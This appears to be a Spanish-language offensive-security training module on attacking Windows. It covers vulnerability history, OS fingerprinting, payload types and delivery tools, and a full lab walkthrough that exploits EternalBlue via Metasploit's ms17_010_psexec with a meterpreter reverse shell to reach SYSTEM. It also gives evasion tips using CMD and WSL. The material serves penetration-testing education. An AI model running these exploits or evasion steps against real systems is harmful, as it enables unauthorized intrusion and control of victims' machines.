

# Infiltrating Windows

Desde que muchos de nosotros podemos recordar, Microsoft ha dominado los mercados doméstico y empresarial en términos de computación. En los tiempos modernos, con la introducción de características mejoradas de Active Directory, mayor interconectividad con los servicios en la nube, el Subsistema de Windows para Linux y mucho más, la superficie de ataque de Microsoft también ha crecido.

Por ejemplo, solo en los últimos cinco años, se han reportado **3,688 vulnerabilidades** en productos de Microsoft, y este número sigue creciendo diariamente.

<figure><figcaption></figcaption></figure>

## Vulnerabilidades prominentes en Windows

En los últimos años, varias vulnerabilidades del sistema operativo Windows han sido objeto de algunos de los ataques más explotados de nuestro tiempo. A continuación, se describen algunas de ellas:

| **Vulnerabilidad** | **Descripción**                                                                                                                                                                       |
| ------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **MS08-067**       | Una falla crítica en el SMB que facilitaba la infiltración en un host Windows. Fue utilizada por el gusano Conficker y el ataque Stuxnet.                                             |
| **Eternal Blue**   | MS17-010 es un exploit filtrado en el Shadow Brokers dump del NSA. Fue usado en los ataques de ransomware WannaCry y NotPetya, explotando una falla en el protocolo SMB v1.           |
| **PrintNightmare** | Vulnerabilidad de ejecución remota en el spooler de impresión de Windows. Con credenciales válidas o una shell de bajo privilegio, permite acceso de nivel sistema al host.           |
| **BlueKeep**       | CVE 2019-0708 es una vulnerabilidad en el protocolo RDP de Microsoft que permite la ejecución remota de código. Afecta a varias versiones de Windows desde 2000 hasta Server 2008 R2. |
| **SigRed**         | CVE 2020-1350 explotaba una falla en cómo DNS maneja los registros SIG. Si se ejecuta correctamente, permite obtener privilegios de administrador del dominio.                        |
| **SeriousSam**     | CVE 2021-36924 permite que usuarios no elevados accedan a la base de datos SAM y otros archivos debido a errores en los permisos de carpetas del sistema.                             |
| **Zerologon**      | CVE 2020-1472 explota una falla criptográfica en el protocolo de Netlogon, permitiendo a un atacante realizar cambios en las cuentas del servidor en segundos.                        |

Con estas vulnerabilidades en mente, Windows no desaparecerá pronto. Por lo tanto, es esencial ser proficientes en identificar vulnerabilidades, explotarlas y navegar por entornos Windows. Una comprensión sólida de estos conceptos puede ayudarnos a asegurar nuestros entornos contra ataques.

## Métodos de enumeración y fingerprinting en Windows

Este módulo asume que ya has realizado la fase de enumeración de hosts y comprendes qué servicios son comúnmente vistos en los hosts. Aquí, se presentan algunos trucos rápidos para determinar si un host es probablemente una máquina con Windows.

### **Método 1: TTL (Time to Live)**

Una forma de identificar un host Windows es mediante el uso de ICMP para verificar si el host está activo. La respuesta típica de un host Windows tendrá un TTL de 32 o 128. En el siguiente ejemplo, al hacer ping a un host Windows 10, podemos ver que la respuesta tiene un TTL de 128.

```bash
sherlock28@htb[/htb]$ ping 192.168.86.39 

PING 192.168.86.39 (192.168.86.39): 56 data bytes
64 bytes from 192.168.86.39: icmp_seq=0 ttl=128 time=102.920 ms
64 bytes from 192.168.86.39: icmp_seq=1 ttl=128 time=9.164 ms
64 bytes from 192.168.86.39: icmp_seq=2 ttl=128 time=14.223 ms
64 bytes from 192.168.86.39: icmp_seq=3 ttl=128 time=11.265 ms
```

### **Método 2: Escaneo de NMAP**

Otra forma de validar si el host es Windows es usar NMAP. Este tiene una capacidad incorporada para ayudar con la identificación de sistemas operativos. Utilizando la opción `-O` y la opción `-v` para obtener una salida detallada, podemos realizar un escaneo de identificación de OS.

```bash
nmap -O -v 192.168.86.39
```

En la salida, podremos ver algo como:

```bash
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 1909
```

NMAP adivina el sistema operativo basándose en varias métricas derivadas de la pila TCP/IP y lo compara con una base de datos de huellas de OS. En este caso, determina que el host es una máquina con Windows 10, entre las revisiones 1709 y 1909.

Si el escaneo no da muchos resultados, intenta nuevamente con las opciones `-A` y `-Pn`. Estos escaneos pueden revelar más información en ciertos casos.

### Banner Grab para Enumerar Puertos

```bash
sherlock28@htb[/htb]$ sudo nmap -v 192.168.86.39 --script banner.nse

Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-20 18:01 EDT
NSE: Loaded 1 scripts for scanning.
<snip>
Discovered open port 135/tcp on 192.168.86.39
Discovered open port 139/tcp on 192.168.86.39
Discovered open port 445/tcp on 192.168.86.39
Discovered open port 443/tcp on 192.168.86.39
Discovered open port 912/tcp on 192.168.86.39
Discovered open port 902/tcp on 192.168.86.39
Completed SYN Stealth Scan at 18:01, 1.46s elapsed (1000 total ports)
NSE: Script scanning 192.168.86.39.
Initiating NSE at 18:01
Completed NSE at 18:01, 20.11s elapsed
Nmap scan report for desktop-jba7h4t.lan (192.168.86.39)
Host is up (0.012s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
443/tcp open  https
445/tcp open  microsoft-ds
902/tcp open  iss-realsecure
| banner: 220 VMware Authentication Daemon Version 1.10: SSL Required, Se
|_rverDaemonProtocol:SOAP, MKSDisplayProtocol:VNC , , NFCSSL supported/t
912/tcp open  apex-mesh
| banner: 220 VMware Authentication Daemon Version 1.0, ServerDaemonProto
|_col:SOAP, MKSDisplayProtocol:VNC , ,
MAC Address: DC:41:A9:FB:BA:26 (Intel Corporate)
```

Los ejemplos anteriores son solo algunas formas para ayudar a identificar y determinar si un host es una máquina Windows. No es una lista exhaustiva, y hay muchos otros métodos de verificación que puedes usar.

## Archivos BAT, DLL y MSI: ¡Oh por Dios!

Cuando se trata de crear payloads para hosts Windows, tenemos muchas opciones disponibles. Los archivos DLL, scripts en lote (batch), paquetes MSI e incluso scripts de PowerShell son algunos de los métodos más comunes. Cada tipo de archivo puede cumplir diferentes propósitos, pero lo que todos tienen en común es que son ejecutables en un host.

### Tipos de Payload a Considerar

1. **DLLs**\
   Una **Dynamic Linking Library (DLL)** es un archivo de biblioteca utilizado en sistemas operativos Microsoft que provee código y datos compartidos por varios programas. Como pentester, podemos inyectar un DLL malicioso o secuestrar una biblioteca vulnerable para elevar privilegios a **SYSTEM** o evitar los **Controles de Cuenta de Usuario (UAC)**.
2. **Batch**\
   Los archivos por lotes o **batch files** son scripts basados en texto utilizados por administradores de sistemas para realizar múltiples tareas mediante el intérprete de línea de comandos. Tienen la extensión `.bat`. Estos archivos pueden automatizar la ejecución de comandos en un host, como abrir un puerto o conectarse a una caja atacante.
3. **VBS**\
   **VBScript** es un lenguaje de scripting basado en Visual Basic de Microsoft. Se usa principalmente en servidores web para habilitar páginas dinámicas. Aunque está desactualizado, aún es usado en ataques de phishing y otras tácticas que buscan que el usuario realice una acción, como habilitar macros en documentos.
4. **MSI**\
   Los archivos `.MSI` son bases de datos de instalación para el instalador de Windows. Los atacantes pueden crear un payload como un archivo MSI y usar **msiexec** para ejecutarlo en el host, obteniendo acceso elevado o una shell inversa.
5. **PowerShell**\
   **PowerShell** es un entorno de shell y lenguaje de scripting en los sistemas operativos de Microsoft. Ofrece múltiples opciones para obtener una shell o ejecutar comandos en un host, convirtiéndose en una herramienta útil en pruebas de penetración.

## Herramientas, Tácticas y Procedimientos para la Generación, Transferencia y Ejecución de Payloads

A continuación, se presentan algunos métodos de generación de payloads y formas de transferirlos a la víctima. Aquí se discutirán a un nivel alto, ya que el enfoque está en la generación de payloads y en obtener una shell en el objetivo.

### **Generación de Payloads**

Existen muchas opciones efectivas para generar payloads que puedan utilizarse en hosts Windows. Algunas de ellas ya se han mencionado previamente, como **Metasploit-Framework** y **MSFVenom**, que son herramientas muy útiles ya que son independientes del sistema operativo.

| **Recurso**                 | **Descripción**                                                                                                                                                                    |
| --------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **MSFVenom & Metasploit**   | Una herramienta extremadamente versátil para cualquier pentester, que permite enumerar hosts, generar payloads, explotar vulnerabilidades y ejecutar acciones de post-explotación. |
| **Payloads All The Things** | Un recurso que incluye una gran cantidad de cheatsheets y metodologías para la generación de payloads.                                                                             |
| **Mythic C2 Framework**     | Una alternativa a Metasploit como un framework de Comando y Control para la generación de payloads únicos.                                                                         |
| **Nishang**                 | Colección de scripts ofensivos y PowerShell implants útiles para pentesters.                                                                                                       |
| **Darkarmour**              | Herramienta para generar y utilizar binarios ofuscados contra hosts Windows.                                                                                                       |

### Transferencia y Ejecución de Payload:

Además de los vectores como _drive-by_ en la web, correos de phishing o "dead drops", los hosts de Windows nos ofrecen varias vías adicionales para la entrega de payloads. A continuación, se incluye una lista de herramientas y protocolos útiles para intentar transferir un payload al objetivo:

* **Impacket**: Impacket es un conjunto de herramientas escrito en Python que nos permite interactuar directamente con los protocolos de red. Algunas de las herramientas más interesantes que nos ofrece son **psexec**, **smbclient**, **wmi**, **Kerberos**, y la capacidad de levantar un servidor SMB.
* **Payloads All The Things**: Es un excelente recurso para encontrar _oneliners_ rápidas que ayuden a transferir archivos entre hosts de manera eficiente.
* **SMB**: SMB puede proporcionar una ruta fácil de explotar para transferir archivos entre hosts, especialmente cuando los hosts de la víctima están unidos a un dominio y utilizan _shares_ para alojar datos. Como atacantes, podemos usar estos recursos compartidos de archivos SMB junto con **C$** y **admin$** para alojar y transferir nuestros payloads, e incluso exfiltrar datos a través de estos enlaces.
* **Ejecución remota vía MSF**: En muchos de los módulos de explotación de **Metasploit** está incorporada una función que construye, prepara y ejecuta automáticamente los payloads.
* **Otros protocolos**: Al examinar un host, protocolos como **FTP**, **TFTP**, **HTTP/S**, y otros pueden permitirte cargar archivos en el host. Enumera y presta atención a las funciones que están abiertas y disponibles para su uso.

## Ejemplo de Compromiso

### **Enumerar el Host**

Las herramientas como **Ping**, **Netcat**, escaneos de **Nmap**, e incluso **Metasploit** son buenas opciones para empezar a enumerar posibles víctimas. En este ejemplo, utilizaremos un escaneo con Nmap. La enumeración es una de las fases más críticas de cualquier cadena de explotación, ya que entender el objetivo aumenta las posibilidades de obtener acceso.

```bash
sherlock28@htb[/htb]$ nmap -v -A 10.129.201.97
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-27 18:13 EDT
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.

Discovered open port 135/tcp on 10.129.201.97
Discovered open port 80/tcp on 10.129.201.97
Discovered open port 445/tcp on 10.129.201.97
Discovered open port 139/tcp on 10.129.201.97
Completed Connect Scan at 18:13, 12.76s elapsed (1000 total ports)
Completed Service scan at 18:13, 6.62s elapsed (4 services on 1 host)
NSE: Script scanning 10.129.201.97.
Nmap scan report for 10.129.201.97
Host is up (0.13s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 10.129.201.97 - /
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h20m00s, deviation: 4h02m30s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: SHELLS-WINBLUE
|   NetBIOS computer name: SHELLS-WINBLUE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-27T15:13:28-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-27T22:13:30
|_  start_date: 2021-09-23T15:29:29
```

Hemos descubierto algunas cosas sobre el host. Está ejecutando **Windows Server 2016 Standard 6.3**, conocemos el nombre del equipo y sabemos que no está en un dominio y ejecuta varios servicios. Con esta información, podemos buscar posibles rutas de explotación.

### **Buscar y decidir una ruta de explotación**

El **IIS** podría ser un camino potencial, o podríamos intentar acceder al host mediante **SMB** usando una herramienta como **Impacket**. También existe la posibilidad de que el host sea vulnerable a una ejecución remota de código (RCE). **MS17-010 (EternalBlue)** es una vulnerabilidad conocida que afecta a los sistemas desde **Windows 2008** hasta **Server 2016**. Vamos a validar si el host es vulnerable utilizando un módulo auxiliar en **Metasploit**.

```bash
msf6 auxiliary(scanner/smb/smb_ms17_010) > use auxiliary/scanner/smb/smb_ms17_010 
msf6 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting                 Required  Description
   ----         ---------------                 --------  -----------
   CHECK_ARCH   true                            no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                            no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                           no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /usr/share/metasploit-framewor  yes       List of named pipes to check
                k/data/wordlists/named_pipes.t
                xt
   RHOSTS                                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        445                             yes       The SMB service port (TCP)
   SMBDomain    .                               no        The Windows domain to use for authentication
   SMBPass                                      no        The password for the specified username
   SMBUser                                      no        The username to authenticate as
   THREADS      1                               yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.129.201.97
RHOSTS => 10.129.201.97
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.129.201.97:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 10.129.201.97:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Podemos ver que nuestro objetivo es probablemente vulnerable a **EternalBlue**. Ahora podemos configurar el exploit y el payload, y probarlo.

**3. Seleccionar Exploit y Payload, luego entregarlos**

### Elegir y Configurar Nuestro Exploit y Payload

```plaintext
msf6 > search eternal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

Para este caso, utilizamos la función de búsqueda en Metasploit (MSF) para encontrar un exploit relacionado con **EternalBlue**. El resultado anterior muestra varias opciones, y elegimos el exploit **ms17\_010\_psexec**, que es la tercera opción, ya que hemos tenido éxito con esta versión en el pasado.

### Configurar el Exploit y Payload

```plaintext
msf6 > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt yes       List of named pipes to check
   RHOSTS                                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.48    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

Asegúrate de configurar correctamente las opciones del payload antes de ejecutar el exploit. Los campos **RHOSTS**, **LHOST** y **LPORT** son esenciales. En este ejemplo, dejamos el payload en la configuración predeterminada, que es **windows/meterpreter/reverse\_tcp**.

### Validar Nuestras Opciones

```plaintext
msf6 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   RHOSTS                10.129.201.97                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                            no        The Windows domain to use for authentication

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

En esta ocasión, usamos un payload básico **windows/meterpreter/reverse\_tcp**. También puedes modificar el payload para un tipo de shell diferente u obfuscar más el ataque, como se ha mostrado anteriormente en la sección de payloads.

#### Ejecutar el Ataque y Recibir la Conexión

```plaintext
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.201.97:445 - Selecting PowerShell target
[*] 10.129.201.97:445 - Executing the payload...
[+] 10.129.201.97:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.201.97
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.129.201.97:50215) at 2021-09-27 18:58:00 -0400

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

¡Éxito! Hemos logrado explotar la vulnerabilidad y obtener una sesión en el sistema con privilegios de **SYSTEM**. Ahora podemos usar **Meterpreter** para ejecutar más comandos, recopilar información del sistema, robar credenciales o utilizar módulos de post-explotación.

### Identificar Nuestra Shell

```plaintext
meterpreter > shell

Process 4844 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Al ejecutar el comando **shell** de Meterpreter, se inició otro proceso en el host y entramos en una shell del sistema. El prompt `C:\Windows\system32>` nos indica que estamos en una shell de **cmd.exe**. Para confirmar, puedes ejecutar el comando **help** dentro de la shell. Si hubiéramos accedido a PowerShell, el prompt se vería así: `PS C:\Windows\system32>`. El prefijo **PS** nos indica que es una sesión de PowerShell.

## CMD-Prompt y PowerShell: Usos y Beneficios

En Windows tenemos dos opciones predeterminadas para shells: **CMD** y **PowerShell**. Veamos cuándo conviene usar cada una:

**CMD**

**CMD** es la shell original de **MS-DOS** integrada en Windows. Está diseñada para interacciones básicas y operaciones de TI en el host. A continuación, se detallan algunas situaciones en las que es preferible utilizar **CMD**:

* **Sistemas antiguos**: Si estás en un host antiguo (por ejemplo, Windows XP), puede que PowerShell no esté disponible.
* **Interacciones simples**: Si solo necesitas realizar interacciones básicas con el sistema.
* **Automatización sencilla**: Para ejecutar archivos por lotes o herramientas nativas de MS-DOS.
* **Políticas de ejecución**: Si crees que las políticas de ejecución de scripts pueden interferir en tu capacidad para ejecutar comandos o scripts.
* **Bajo perfil**: **CMD** no guarda un registro de los comandos ejecutados, por lo que puede ser más difícil rastrear tus acciones.

**PowerShell**

**PowerShell** es una herramienta más avanzada que entiende los comandos de MS-DOS y amplía sus capacidades. Algunos de sus beneficios son:

* **Cmdlets y scripts personalizados**: Si planeas usar **cmdlets** o scripts personalizados basados en .NET.
* **Interacción con objetos**: PowerShell maneja objetos .NET en lugar de solo texto.
* **Servicios en la nube**: Es ideal para interactuar con servicios y hosts basados en la nube.
* **Alias y scripts avanzados**: Si planeas usar scripts que establecen y utilizan **Aliases**.

## WSL y PowerShell para Linux

El **Windows Subsystem for Linux** (WSL) permite ejecutar un entorno virtual de Linux en Windows. Este sistema podría abrir nuevas formas de acceder a un host. Los atacantes han aprovechado WSL y **PowerShell Core** en Linux para evitar mecanismos de detección como el Firewall de Windows y Windows Defender.

Este enfoque es relativamente nuevo, pero se ha visto que algunos ataques utilizan Python3 y binarios de Linux en conjunto con PowerShell. Actualmente, las funciones de red ejecutadas desde WSL no son filtradas por el firewall de Windows, lo que lo convierte en un punto ciego.

Cada shell tiene sus pros y contras. CMD es más básico pero menos rastreable, mientras que PowerShell ofrece mayor versatilidad y potencia, especialmente en sistemas modernos o cuando se interactúa con servicios en la nube.
